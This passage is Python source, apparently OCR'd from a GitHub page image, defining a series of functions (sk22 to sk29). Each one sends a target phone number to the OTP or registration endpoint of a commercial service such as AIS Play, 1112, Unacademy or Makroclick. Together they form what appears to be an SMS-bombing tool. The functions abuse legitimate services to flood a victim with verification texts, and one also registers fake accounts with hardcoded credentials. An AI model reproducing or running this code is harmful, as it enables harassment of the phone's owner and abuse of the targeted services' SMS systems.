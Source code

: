     ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": useragent,"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})





def sk23(phone):

    post(url="https://www.cpffeedonline.com/Customer/RegisterRequestOTP", data={"mobileNumber":f"{phone}"})





def sk24(phone):

    post(url="https://www.tgfone.com/index.php/signin/otp_chk", data={"mobile":f"{phone}"})





def sk25(phone):

    post("https://api2.1112.com/api/v1/otp/create", json={"phonenumber":f"0{phone}","language":"th"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def sk26(phone):

    post("https://unacademy.com/api/v3/user/user_check/", json={"phone":f"0{phone}","country_code":"TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})



def sk27(phone):

    post(f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")



def sk28(phone):

    post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register", json={"username": f"0{phone}","password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})





def sk29(phone):
